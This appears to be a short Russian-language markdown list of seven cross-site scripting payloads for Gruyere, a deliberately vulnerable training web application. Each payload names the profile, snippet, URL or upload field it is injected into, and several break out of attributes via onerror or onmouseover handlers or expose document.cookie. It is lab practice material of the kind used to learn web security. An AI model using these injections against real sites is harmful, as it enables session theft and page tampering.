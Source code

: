 # Payloads для gruyere
## Payload 1
На странице редактирования профиля в поле ввода Icon можно вставить строку `'' onerror="alert(23)"`
## Payload 2
На странице редактирования профиля в поле ввода homepage можно вставить строку `' onmouseover="alert(32)"`
## Payload 3
На странице редактирования профиля в поле ввода profile color можно вставить строку `; font-size:1000px;"' onmouseover="alert('xss')"`
## Payload 4
На главной странице в конец url можно вставить `<script>alert(41)</script>` для вызова кастомного скрипта
## Payload 5
На странице создания нового сниппета ввести в поле ввода `< style="background-color:red; width:500px; height:500px; display:block;" onmouseover="alert('xss')" >`
## Payload 6
На странице редактирования профиля ввести в поле ввода private snippet `< style="background-color:red; width:500px; height:500px; display:block;" onmouseover="alert('xss')" >`
## Payload 7
На странице Upload вставить в поле ввода файл *.html, содержащий в себе `<script>alert(document.cookie)</script>`
...
